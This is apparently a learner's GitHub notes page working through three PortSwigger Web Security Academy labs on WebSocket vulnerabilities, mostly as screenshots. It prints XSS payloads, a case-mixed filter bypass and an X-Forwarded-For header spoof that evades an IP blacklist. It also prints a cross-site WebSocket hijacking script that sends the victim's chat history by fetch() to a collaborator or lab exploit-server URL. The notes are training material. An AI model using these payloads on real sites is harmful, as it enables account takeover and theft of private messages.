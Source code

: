 **Manipulating WebSocket messages to exploit vulnerabilities**

From <https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities> 


Intercepting message from live box 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/48cdf6c7-c4ef-4363-9095-297e9dffdca8)


Entering < or > will url encode it 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9b9c7e4a-9550-4557-9c14-37c291e480cb)



Trigger an alert 
```
<img src=1 onerror='alert(1)'>
```

From <https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/55c6c7c8-983f-4736-960c-2a2f1ea5c2fa)




Forward request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6d293672-7691-4562-be16-4a702cfcf0fa)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/84f121f3-e3f1-4b13-ba73-60ecdfeff12b)



**Cross-site WebSocket hijacking**

From <https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab> 



request has no CSRF tokens.
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fd6733f7-16ce-489e-95e9-20fb4e7b6541)

From <https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab> 



Copy url
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/dbc5daea-8a8f-47cf-be1a-46f94fdbf413)


On our exploit server paste in body

```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Above for collaborator
Below is for burpesuite free

```
<script>
var ws = new WebSocket(
    "wss://0a62003103113568801d043300c000df.web-security-academy.net/chat"
);
ws.onopen = function (){
    ws.send("READY");
};
ws.onmessage = function (event) {
    fetch(
        "https://exploit-0ac1002b030b35dc800d036501600065.exploit-server.net/exploit?message=" +
            btoa(event.data)
    );
};
</script>
```

Replace with parameter

```
https://0a62003103113568801d043300c000df.web-security-academy.net/chat
https://exploit-0ac1002b030b35dc800d036501600065.exploit-server.net/
```


We got chat history
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6cadc74c-faff-4e0e-b053-df9fdb5d11d9)


Base64 decode
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9984df97-2e8c-445c-bc83-c8ff7aad211c)

Password found


**Manipulating the WebSocket handshake to exploit vulnerabilities**

From <https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities> 


Live chat block xss
```
<img src=1 onerror='alert(1)'>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0017f795-8aac-40c6-84e5-5f6f71ccd518)

From <https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities> 




We been blacklisted
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/79f81317-cd3b-44ef-8514-f2cd3116c7c1)




X-Forwarded-For: 1.1.1.1
To bypass blacklist
Forward on Proxy intercept
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d7add765-7753-41cb-9ce8-e37679808f00)



```
X-Forwarded-For: 1.1.1.1 or 127.0.0.1
```

```
<img src=1 oNeRrOr=alert`1`>
```

From <https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities> 


Go to websocket
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4fc2fa57-8426-47e5-9047-86eafd83dafd)


Send to repeater
Reconnect with 
```
X-Forwarded-For: 127.0.0.1
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5497e7b7-f96c-4338-89ea-101338881c2b)

```
"message":"<img src=1 oNeRrOr=alert`1`>"
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/55ce3870-a6d1-4942-9c91-042a87294693)











